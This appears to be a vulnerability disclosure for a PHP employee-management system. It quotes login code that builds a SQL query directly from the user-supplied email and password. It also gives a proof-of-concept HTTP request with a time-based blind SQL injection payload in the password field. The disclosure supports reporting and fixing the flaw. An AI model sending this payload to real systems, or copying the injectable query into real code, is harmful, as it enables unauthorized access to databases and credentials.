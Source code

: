 ### Vulnerability file address

`Account/Login.php` from line 14,The `$password` parameter is controllable,, and the `$password` is not protected from sql injection, line 18 ` $sql = "SELECT * FROM tblemployee WHERE email='" .$email. "' and password = '".$password."'  and status = '".$status."'";` ,line 19 `$result = mysqli_query($conn,$sql);`,line 19 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php'); 


if(isset($_POST['btnlogin'])){


//Get Date
date_default_timezone_set('Africa/Lagos');
$current_date = date('Y-m-d h:i:s');


$email = $_POST['txtemail'];
$password = $_POST['txtpassword'];
$status = '1';


 $sql = "SELECT * FROM tblemployee WHERE email='" .$email. "' and password = '".$password."'  and status = '".$status."'";
  $result = mysqli_query($conn, $sql);
```

### POC

```http
POST /CMS/php/employee_akpoly/Account/Login.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Account/Login.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtemail=1@qq.com&txtpassword=1' AND (SELECT 4536 FROM (SELECT(SLEEP(5)))fZVr)-- ndup&btnlogin=
```

### Attack results pictures

![image-20250128230059878](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282300923.png)